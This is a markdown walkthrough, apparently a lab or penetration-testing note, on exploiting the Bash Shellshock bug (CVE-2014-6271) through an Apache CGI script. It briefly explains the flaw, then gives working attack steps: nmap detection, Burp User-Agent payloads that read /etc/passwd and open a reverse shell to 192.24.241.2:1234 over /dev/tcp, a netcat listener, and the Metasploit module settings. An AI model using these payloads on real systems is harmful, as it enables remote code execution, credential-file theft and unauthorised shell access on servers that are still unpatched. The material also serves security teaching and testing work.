



# Bash CVE-2014-6271 (Shellshock)

# Explanation

- ShellShock is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via reverse shell.

- The ShellShock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.

- The ShellShock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after series of characters : () {:;};.

- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

- Link : https://github.com/opsxcq/exploit-CVE-2014-6271

# Enumeration

Check the source code of the targeted application, in order to notice the execution of a CGI script, for example :



In our case, the script is stored at the root of the server, so we can access it directly in the URL : 
```
http://192.24.241.3/gettime.cgi
```

And we can use nmap to check whether the target is really vulnerable :
```
nmap -sV 192.24.241.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

# Exploit with BurpSuite

1. Start BurpSuite, and send GET request to repeater module :



2. And modify User-Agent for inject shellshock payload :

```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```



3. With this, we can go a step further and obtain a reverse shell :

```
nc -nvlp 1234
```

```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
```

# Exploit with Metasploit Framework

```
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 > set RHOSTS 192.24.241.3
msf6 > set TARGETURI /gettime.cgi
msf6 > run
```